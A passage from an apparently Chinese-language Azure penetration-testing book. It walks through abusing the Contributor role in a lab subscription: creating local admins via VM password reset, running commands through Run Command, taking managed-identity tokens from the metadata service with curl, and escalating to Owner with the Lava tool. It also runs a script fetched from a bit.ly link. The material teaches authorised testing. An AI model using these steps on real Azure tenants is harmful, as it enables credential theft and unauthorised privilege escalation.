### 5 利用 IaaS 服务上的 Contributor 权限

在本书的上一章中，我们探讨了如何从 Reader RBAC 角色提升权限到 Contributor 角色。在本章中，我们将更进一步，讨论如何利用 Contributor 角色的权限来攻击基础设施即服务（IaaS）工作负载，以实现权限提升和数据外泄的目标。我们还将介绍如何使用 Contributor 角色搜寻其他凭据，这些凭据可用于在环境中超越 Contributor 访问角色的正常范围进行横向移动。

以下是本章涵盖的主要主题：

- 回顾 Contributor RBAC 角色
- 理解 Contributor IaaS 提权目标
- 利用 Contributor 权限攻击 Azure 平台功能
- 从 Azure VM 中提取数据

#### 技术需求

在本章中，我们将使用以下工具：

- PowerZure: https://github.com/hausec/PowerZure
- MicroBurst: https://github.com/NetSPI/MicroBurst
- Lava: https://github.com/mattrotlevi/lava

MicroBurst 和 PowerZure 应该已经从之前的章节安装在你的渗透测试**虚拟机（VM）**上，但 Lava 将是本章的新增工具。本章的所有示例都可以使用我们在*第2章，构建你自己的环境*中创建的渗透测试 VM，或使用同等配置的 Windows 桌面来执行。

#### 回顾 Contributor RBAC 角色

正如我们在本书第一章中简要提到的，内置的 Contributor RBAC 角色授予管理*分配范围内的所有资源*（管理组、订阅或资源组）的完全访问权限，但限制其向其他用户或身份分配权限。

鉴于该角色的访问级别，我们的重点不仅是使用这些权限，还包括如何利用它们来攻击用户的错误配置，以实现权限提升和横向移动。我们将通过利用 Azure 平台功能来实现这一点，这些功能可用于在 IaaS 工作负载（例如 VM 和**虚拟机规模集（VMSSes）**）上运行操作系统级命令/脚本。

> **重要说明**
>
> 对于在本地 Windows 环境中更有经验的人来说，Contributor 访问权限类似于在大多数系统上拥有一个具有本地管理员权限的域账户。你有权管理基础设施并进行更改，但无权向域中添加新用户，也无权在域管理员级别进行全局更改。

以下是 Contributor 角色有权使用且我们可以滥用的一些 IaaS 平台功能：

- 重置 VM 上的本地用户密码
- 以特权用户身份在 VM 上运行命令
- 安装和执行 VM 扩展
- 导出未加密的操作系统磁盘以供分析

请注意，这些操作可能是环境中明显的状态更改，如果执行不当，可能会导致 IaaS 资源出现问题。使用这些功能进行攻击时请务必谨慎。我们将在本章稍后的部分介绍这些功能，但首先，让我们完成设置 Azure 订阅以准备本章后续练习的过程。

#### 动手练习 – 为 Contributor（IaaS）利用场景做准备

这个动手练习将为我们完成本章其余练习做准备。要跟随本章介绍的场景进行操作，你需要在自己的 Azure 订阅中设置一个具有 Contributor 权限的用户，并配置一些易受攻击的工作负载。我们使用 PowerShell 脚本实现了自动化，你可以从 Azure Cloud Shell 运行该脚本。

以下是本练习要完成的任务：

1. 打开 Web 浏览器，浏览到 Azure 门户 https://portal.azure.com。使用 azureadmin 凭据登录。

2. 在 Azure 门户中，单击 Azure 门户右上角的 Cloud Shell 图标。选择 PowerShell：

   

   图5.1 – 单击图标打开 Cloud Shell

3. 在 Cloud Shell 窗格内的 PowerShell 会话中，运行以下命令下载脚本，以创建具有 Contributor 权限的用户账户并设置所需的易受攻击工作负载。同时，验证下载：

   ```
   PS C:\> Invoke-WebRequest http://bit.ly/contributor-iaas-scenarios -O contributor-iaas-scenarios.ps1
   PS C:\> Get-ChildItem
   ```

   以下是其截图：

   

   图5.2 – 下载 Contributor IaaS 场景脚本

4. 使用以下命令运行已下载的脚本，以配置本章练习所需的对象和资源：

   ```
   PS C:\> ./contributor-iaas-scenarios.ps1
   ```

   当提示输入密码时，输入 myPassword123（或你选择的密码），然后按 Enter。等待脚本部署完成。部署可能需要约 8 分钟才能完成：

   

   图5.3 – Contributor IaaS 场景脚本的输出

#### 这个脚本做什么？

该脚本在 Azure 订阅中创建一个具有 Contributor 权限的用户账户。该脚本还会设置图5.4中所示的资源和对象：

- 一台名为 winvm01 的已开机 Windows VM
- 一台名为 winvm02 的已关机 Windows VM
- 一台名为 linuxvm01 的已开机 Linux VM

以下是添加到你的测试订阅中的资源示意图：



图5.4 – Contributor IaaS 利用场景

5. 脚本完成后，后续练习所需的关键信息将显示在输出部分。将这些信息复制到记事本文档中，以备后用。

在我们开始在 Azure VM 上随机执行命令之前，我们需要理解为什么要运行这些命令。假设我们对订阅中的所有 VM 拥有 Contributor 权限，为什么还要费心运行额外的命令？

简单的答案是“寻找可用于提升权限的凭据”，但可能导致这种提权的凭据有多种选择。我们试图强调在攻击 Azure VM 时需要实现的四个主要目标：

- 本地凭据搜寻
- 域凭据搜寻
- 横向网络移动机会
- 租户凭据搜寻

在接下来的几个小节中，我们将详细讨论这四个目标。

#### 本地凭据搜寻

能够以特权用户身份在 Azure VM 上运行命令，为收集本地凭据（哈希或明文）提供了绝佳机会，这些凭据可能是转向租户中其他系统、账户和订阅，甚至已连接的本地系统的关键。管理员在不同环境的多台系统上重复使用相同的本地凭据，以及为域账户使用相同凭据，这是非常常见的。这种攻击可以同时应用于 Windows 和 Linux 系统，并且它们甚至可能在不同操作系统之间共享凭据。

#### 域凭据搜寻

Azure VM 可以是独立系统，也可以加入更大的 Active Directory（AD）域。如果 VM 已加入域，则从 VM 收集信息的影响可能会更大。通常情况下，在订阅中具有特权角色的 Azure AD 用户同时也是登录到这些 VM 的用户。

通过从每个 VM 收集凭据，我们可能能够获得更高特权用户的明文凭据（或哈希）。需要注意的是，此时的域凭据可以是明文、哈希或缓存的凭据。哈希或缓存的凭据有可能被破解，从而揭示明文密码。

收集域凭据可能是在向域管理员或企业管理员权限迈进过程中的重要一步。到那时，我们将能够转储域的所有密码哈希，或重置我们想要访问的特权账户的密码。


#### 横向网络移动机会

由于 VM 已部署到 Azure 中客户管理的虚拟网络中，因此组织通常会将其传统网络与 Azure 虚拟网络建立连接。能够在 Azure VM 上运行命令使我们有机会发现可能与其连接的网络中的服务和资源，并寻找利用它们的途径。

运行命令的能力也可能带来绕过防御的机会。在某些情况下，本地 Azure 访问和远程 Azure 访问的 **多因素身份验证 (MFA)** 要求可能不同。作者曾见过要求从互联网访问时进行 MFA，但从受信任的内部本地 IP 地址进行连接时则不要求 MFA 的环境。

在本地环境中提升权限后，dump 并破解租户管理员账户的凭据后，可能可以直接从本地系统或 Azure VM 登录到 Azure 管理界面。

#### 租户凭据搜寻

在某些情况下，组织会在 Azure 中托管特权访问工作站或跳板机。这些是管理员可用于对其环境执行特权操作的系统。我们会尝试从这些机器收集缓存的访问令牌或其他凭据以供重用。

本章后面我们将介绍如何在 Azure VM 上识别托管身份。这些身份也可以通过从元数据服务生成令牌的方式，从 VM 升级到 Azure 租户。生成的令牌随后可用于从可能原本无法访问的其他服务收集敏感信息。

现在我们了解了目标，让我们来看一下实现这些目标的不同利用场景。

#### 利用 Contributor 权限的 Azure 平台功能

拥有 Contributor 角色访问权限后，我们拥有丰富的平台级功能，可用于管理环境中的 VM。由于我们是以渗透测试者的身份来使用这些功能，我们对这些功能的使用案例可能与普通用户略有不同。

#### 利用密码重置功能

Azure VM 的密码重置功能旨在简化使用安装在每台 Azure VM 上的 VM 代理重置本地 Azure VM 用户密码的过程。然而，此功能可被滥用来在 Azure 中的 Windows 和 Linux VM 上创建具有管理权限的新本地用户！

此功能可从 Azure 门户（图 5.6）或 Azure 命令行工具中使用。诸如 Lava 之类的利用工具也可以利用此功能大规模重置 VM 密码。渗透测试者可以利用此功能从 Azure 平台横向移动到 IaaS 工作负载，以推进攻击链：



图 5.6 – 门户中 VM 的示例密码重置

要使用 Azure CLI 为 VM 创建本地用户，我们将使用以下命令：

```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

要使用 Azure PowerShell 为 VM 创建本地用户，我们可以使用以下命令：

```
Set-AzVMAccessExtension -ResourceGroupName "<Resource_Group>" -Location "<Location>" -VMName "<VM_Name>" -Name "<Extension_Name>" -TypeHandlerVersion "2.4" -UserName "<Username>" -Password "<Password>"
```

接下来，我们将介绍使用此功能以本地管理员身份访问 VM 的过程。

#### 实践练习 – 利用密码重置功能创建本地管理员用户

在本练习中，我们将利用 Azure VM 的密码重置功能创建一个可用于连接 VM 的本地管理员用户，在其中搜寻凭据。以下是本练习中我们将完成的任务：

- 1. 在你的渗透测试 VM 上打开 PowerShell。
- 2. 在 PowerShell 控制台中，使用以下命令对 Azure 进行身份验证：
- 3. 在提示时，输入你在本章第一个练习的脚本输出中获得的 Contributor 用户凭据：

```
Connect-AzAccount
```

以下是此操作的截图：



图 5.7 – 对订阅进行身份验证



图 5.8 – Connect-AzAccount 身份验证提示

你现在已使用 Contributor 凭据进行身份验证。

4. 使用以下命令获取订阅中的 VM 列表：

```
Get-AzVM
```

以下是命令输出的截图：



图 5.9 – 可用 VM 列表

5. 使用以下命令在 winvm01 VM 上创建新的本地用户：

```
Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent
```

在提示时，输入 pentestuser 作为用户名，secretPass123 作为密码，然后单击确定。

以下是此过程的截图：



图 5.10 – 密码重置功能的示例

6. 使用以下命令获取 winvm01 的公共 IP：

```
Get-AzPublicIpAddress -Name winvm01* | Select IpAddress
```

请记住，如果 VM 没有公共 IP 或 RDP 端口未打开，你始终可以使用 Contributor 角色权限将服务暴露在公共 IP 上。这在大多数环境中都是重大的状态更改并增加风险，因此不建议在大多数环境中使用。

以下是命令的截图：



图 5.11 – 列出 VM 的公共 IP

7. 通过 RDP 连接到公共 IP，并使用用户名 pentestuser 和密码 secretPass123 进行身份验证。

恭喜！你已成功使用 Contributor 角色在 VM 上创建了本地管理员用户。

这是一个非常方便的功能，但在评估期间并不总是合适的工具。假设我们在测试期间希望在行动上更隐蔽一些。在系统上创建新的本地管理员用户可能会触发一些警报。作为替代方案，我们可以使用原生的 Azure 功能直接在 VM 上运行命令，而无需额外的账户。

#### 利用 Run Command 功能

Azure VM 的 Run Command 功能是使用 VM 代理远程在 VM 上运行脚本的平台功能。它可用于在 Windows VM 上运行 PowerShell 脚本，在 Linux VM 上运行 shell 脚本。它通常由管理员或开发人员用于快速诊断和修复 VM 访问和网络问题，并使 VM 恢复到良好状态。

通过选择 **RunPowerShellScript**，或针对 Linux 选择 **RunShellScript**，我们可以运行自己的自定义命令在 VM 上。作为概念验证，我们将展示 whoami 命令的运行情况：

图 5.13 – Azure Run Command "whoami" 执行

虽然这可能是运行 VM 命令的最简单方法之一，但它并不具可扩展性，并且门户在及时将命令执行结果返回给浏览器方面容易出现问题。这可能导致命令结果被截断，并且在命令完成执行之前发生会话超时。

例如，先前发出的简单 whoami 命令花费了 21 秒才将输出返回给浏览器。虽然对于如此简单的命令来说这是一个相当长的时间，但更复杂且处理更密集的命令可能需要更长的时间（数分钟）才能返回。

#### 从 Az PowerShell 模块运行命令

为了获得更具可扩展性的命令执行选项，我们可以使用 Azure PowerShell 模块通过 PowerShell 管道的魔力在多个 VM 上排队命令。在 Azure 身份验证的 PowerShell 会话中，你可以使用以下命令列出正在运行的 Windows VM 并将其转换为 VMs 变量：

```
PS C:\> $VMs = Get-AzVM -Status | where {$_.PowerState -EQ "VM running"} -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

PS C:\> $VMs | select ResourceGroupName,Name
ResourceGroupName       Name
------------------       ----
DEFAULT                  RunCommandTestVM
```

在前面的示例中，我们知道系统正在运行 Windows，因此我们将 ps1 文件传递给主机。我们首先需要将 whoami 命令输入到 ps1 文件中：

```
PS C:\> echo "whoami" > whoami.ps1
```

要执行命令，我们需要传入资源组和我们运行命令的 VM 的名称。得益于 PowerShell 管道的魔力，我们可以将 VMs 变量传递给 Invoke-AzVMRunCommand 函数，并附带本地脚本：

```
PS C:\> $VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1

Value[0]       :
  Code         : ComponentStatus/StdOut/succeeded
  Level        : Info
  DisplayStatus : Provisioning succeeded
  Message      : nt authority\system
Value[1]       :
  Code         : ComponentStatus/StdErr/succeeded
```


| Level | Info |
| --- | --- |
| DisplayStatus | Provisioning succeeded |
| Message |  |
| Status | Succeeded |
| Capacity | 0 |
| Count | 0 |

虽然这种方法对于我们的示例环境来说是可以的，但它会尝试在订阅中的所有 VM 上运行你的 PowerShell 脚本。在正常的 Azure 渗透测试中，你可能希望专注于单个 VM 进行命令执行。

这可以通过指定单个 VM 和资源组来实现，也可以通过使用我们之前创建的 VMs 变量的索引来实现。记住 PowerShell 中的索引从 0 开始，我们可以将 $VMs[0] 传递给相同的 Invoke-AzRunCommand 函数，以在列表中的第一个 VM 上运行我们的命令。

#### 从 Azure REST API 运行命令

这可能是运行 VM 命令最困难的方式，但幸运的是，我们可以使用脚本使此过程更轻松。虽然这与我们标准的经过身份验证的 Contributor 用户有所偏离，但我们可能会遇到拥有托管身份令牌访问权限且具有 Contributor 角色的情况。

如上一章所述，如果我们有权访问具有托管身份的 VM，我们可以为该身份生成访问令牌，该令牌可用于管理 API。此令牌随后可与 MicroBurst 中的脚本一起使用，在其他 VM 上运行命令。

以下是获取可用于访问 Azure 管理 API 端点的访问令牌的示例命令：

```text
root@LinuxVM:~# curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
```

以下是命令及其输出的截图：

```text
root@LinuxVM:~#
root@LinuxVM:~# curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsInR5cCI6ImNp..."
}
```

Figure 5.14 – Using curl to query the metadata service

获得令牌后，可以利用 MicroBurst 工具包 REST 部分中的 Invoke-AzVMCommandREST 命令，使用获得的令牌运行命令。该函数会提示你选择订阅和要运行命令的 VM。由于命令通过 REST API 运行，我们将无法看到命令的结果。要查看命令的直接结果，我们需要强制 VM 回调给我们或创建一些我们已在机器上运行命令的证据（whoami > test.txt）。以下是使用此方法的示例：

```text
PS C:\> $mgmtToken = "TOKEN GOES HERE"
PS C:\> Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken
204cce89-27de-4669-a48b-04c27255e05e
Executing command on target VM: RunCommandTestVM
```

运行此命令后，我们可以转到 VM 并在 VM 上查找 test.txt 文件，以证明命令已运行。在典型的测试中，我们更有可能使用这种命令执行方法来从 VM 启动反向 shell 连接。

从实际渗透测试的角度来看，这种命令执行方法可能是最有用的方法之一。随着越来越多的组织将遗留应用程序迁移到云中，将会有更多机会利用应用程序服务器并从 VM 和 App Service 主机收集访问令牌。

#### 介绍 Lava

Lava 是一个基于 Python 的 Microsoft Azure 漏洞利用框架。它具有多个内置模块，可用于利用 Azure 中的各种配置错误。本书的其中一位作者定期为该项目做出贡献。我们将在下一个动手练习中使用它来利用特权 VM 进行角色提升。

**Lava information**

**Creator**: Matt Rotlevi (Twitter: @mattrotlevi)

**Open Source or Commercial**: Open source project

**GitHub Repository**: https://github.com/mattrotlevi/lava

**Language**: Python

#### 动手练习 – 使用 Lava 利用特权 VM 资源

在本练习中，我们将在 pentest VM 上的 WSL 中下载 Lava，使用它查找 Azure 订阅中的特权 IaaS 资源，然后从 Contributor 角色提升到 Owner 角色。

以下是本练习中我们将完成的任务：

- 使用 WSL 中的 Azure CLI 工具对 Azure 进行身份验证。
- 在 WSL 中下载 Lava。
- 使用 Lava 模块获取订阅中特权 VM 的列表。
- 使用 Lava 模块利用具有 Owner 角色分配的 VM。

让我们开始！

1. 在你的 pentest VM 上打开 PowerShell。
2. 在 PowerShell 控制台中，输入 bash 以切换到 Windows Subsystem for Linux。
3. 使用以下命令切换到 root 用户。这对于我们想要执行的安装任务是必需的。提示时输入管理员密码：

```text
azureuser@PentestVM:~# sudo su -
```

4. 使用 az login Azure CLI 命令对 Azure 进行身份验证：

```text
root@PentestVM:~# az login
```

5. 提示时，输入你在本章第一个练习的脚本输出中获得的 Contributor 凭据：



Figure 5.15 – Az login password prompt

你现在已使用 Contributor 凭据进行身份验证。

6. 使用以下命令下载 Lava：

```text
root@PentestVM:~# git clone https://github.com/mattrotlevi/lava.git
```

以下是命令及其输出的截图：



Figure 5.16 – Cloning the Lava GitHub repository

7. 切换到 Lava 目录并使用以下命令运行它：

```text
root@PentestVM:~# cd lava/
root@PentestVM:~# python3 lava.py
```

它看起来是这样的：



Figure 5.17 – Lava initialization screenshot

8. 在 Lava 控制台中，使用 whoami 命令确认已认证的用户：

```text
Lava $> whoami
```

以下是命令及其输出的截图：



Figure 5.18 – Results of the Lava whoami command

9. 使用以下命令列出 Lava 中的所有模块：

```text
Lava $> ls
```

它看起来是这样的：



Figure 5.19 – Results of the Lava ls command

Lava 有很多模块可用于在不同场景下利用资源，但在本章中，我们将使用两个主要模块：`vm_list_privileged` 和 `vm_rce`。

10. 使用 `vm_list_privileged` 模块检查订阅中是否有任何 VM 与特权托管身份相关联。要在 Lava 中执行模块，命令需要以 `exec` 关键字为前缀：

```text
exec vm_list_privileged
```

以下是命令及其输出的截图。你可以看到从截图中，模块找到了一个 VM，但该 VM 没有关联的托管身份（1）。你还可以看到模块找到了另一个具有关联特权托管身份的 VM（2）。模块还显示了分配给 VM 的角色和角色分配范围（3）：

```text
Lava $> exec vm_list_privileged
[+] getting vm's in subscription [+]
WARNING: Command group 'vm' is experimental and under development. Reference and support levels: https://aka.ms/CLI_refstatus
WARNING: Command group 'vm' is experimental and under development. Reference and support levels: https://aka.ms/CLI_refstatus
[++++++] vm found but not privileged [++++++]
[++++++++++++++++++++++++++++++++++++++++++++++++++]
{'app_id': '4aab270b-716b-441e-8753-41d09e5ade89',
 'managed_identity': 'SystemAssigned',
 'name': 'linuxvm01',
 'os': 'Linux',
 'privateIp': ['10.0.0.6'],
 'publicIp': ['51.140.11.174'],
 'resource_group': 'PENTEST-RG',
 'username': 'azureuser',
 'vm_size': 'Standard_DS1_v2'}
[{'role': 'Owner',
  'scope': '/subscriptions/204cce89-27de-4669-a48b-04c27255e05e'}]
[++++++++++++++++++++++++++++++++++++++++++++++++++]
```



总共，模块应列出两个具有特权角色分配的 VM（假设你删除了上一章的 VM）：一个具有订阅范围 Owner 角色分配的 Linux VM 和一个具有 Contributor 角色分配的 Windows VM。记下找到的具有所有者权限的 Linux VM 的名称（`linuxvm01`）和资源组（`pentest-rg`）。由于我们已经拥有 Contributor 角色分配的凭据，我们将专注于利用具有 Owner 角色分配的 VM 以获取其令牌进行权限提升。

11. 使用 `vm_rce` 模块以 Contributor 身份利用 Run Command 功能。你需要指定 VM 名称和资源组，如下所示：

```text
Lava $> exec vm_rce -rgrp PENTEST-RG -vm_name linuxvm01
```


Here is a screenshot of the command and its output. You should now see a display that looks like shell access to the Linux VM that has the Owner role assignment. We can either start running commands as an owner from within this VM or we can obtain an access token that we can reuse outside the VM. We will go with the latter option in this case. It is worth noting that this is not an actual shell; in the background, Lava will take the command input, use the Run Command functionality to execute the command, and return the output!

```
Lava $> exec vm_rce -rgrp PENTEST-RG -vm_name linuxvm01
[+] getting shell info [+]
alright! here's a nice shell!
azureuser@linuxvm01$ _
```

Figure 5.21 – Results of the exec vm_rce module in Lava

12. In the shell, run the following command to obtain an access token for the resource manager. This will obtain an access token that can be used to make API calls with the owner privileges:

```
azureuser@linuxvm01$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true
```

Here is a screenshot of the command and its output:



Figure 5.22 – Results of the metadata token request

13. Highlight and copy only the value of the access token, as shown in the following screenshot. Make sure you do not copy the trailing comma:

```
[stdout]
{"access_token":"eyJ0eXAioiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6Im5PbzNaRHJPRFhFSzFqS1doW..."}
```

Figure 5.23 – Example token output

14. Type exit and press Enter to return to the Lava console. Type exit again and press Enter to return to the Bash shell in WSL. Set the obtained token as a variable using the following command:

```
root@PentestVM:~# TOKEN=<ACCESS_TOKEN_FROM_PREVIOUS_STEP>
```

Here is a screenshot of the command and its output:

